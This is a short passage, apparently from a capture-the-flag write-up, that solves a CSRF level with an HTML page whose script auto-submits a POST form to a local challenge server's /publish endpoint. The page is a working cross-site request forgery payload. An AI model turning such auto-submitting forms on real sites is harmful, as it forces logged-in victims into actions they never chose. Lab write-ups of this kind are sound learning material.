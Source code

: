 This level is pretty much the same as the previous level, except we need to send a POST request to the `/publish` endpoint instead, which should be pretty easy to modify

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Attack</title>
</head>
<body>
    <form method="POST" action="http://challenge.localhost/publish"></form>
    <script>document.forms[0].submit()</script>
</body>
</html>
```